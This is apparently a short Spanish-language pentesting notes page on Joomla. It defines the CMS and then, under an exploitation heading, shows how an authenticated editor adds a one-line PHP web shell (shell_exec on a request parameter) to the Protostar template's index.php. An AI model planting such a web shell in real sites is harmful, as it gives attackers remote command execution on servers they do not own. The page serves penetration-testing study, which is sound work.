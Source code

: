 ```yaml
---
layout: single
title: Joomla
excerpt: "Posibles vectores de ataque al enfrentarse a un Joomla, rutas relevantes y archivos de configuración post-explotación relevantes."
date: 2022-01-07
classes: wide
header:
  teaser: /assets/images/Concepts/CMS/Joomla/Joomla.png
  teaser_home_page: true
  icon: /assets/images/concept.png
categories:
  - Concepts
tags:
  - CMS
---
```



# Definición
Joomla! es un sistema de gestión de contenidos que permite desarrollar sitios web dinámicos e interactivos. Permite crear, modificar o eliminar contenido de un sitio web de manera sencilla a través de un "panel de administración".

# Explotación
Una vez hemos iniciado con credenciales válidas y con capacidad de editar. Nos dirigimos a: Extensions > Templates > Templates > Protostar Details and Files > index.php.

Y añadimos la línea:

```php
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
```
